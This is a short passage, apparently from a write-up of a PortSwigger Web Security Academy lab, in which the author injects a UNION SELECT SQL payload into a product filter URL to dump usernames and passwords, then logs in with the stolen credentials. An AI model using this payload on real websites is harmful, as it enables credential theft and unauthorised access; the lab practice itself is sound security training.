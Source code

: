 And as an URL i tested:   
```bash
web-security-academy.net/filter?category=Accessories'UNION+SELECT+username,+password+FROM+users--
```

Which gave me:   

![](res/portSwigLab-13.png)

I then went to the "My account" with those credentials in my clipboard, and....   

![](res/portSwigLab-14.png)
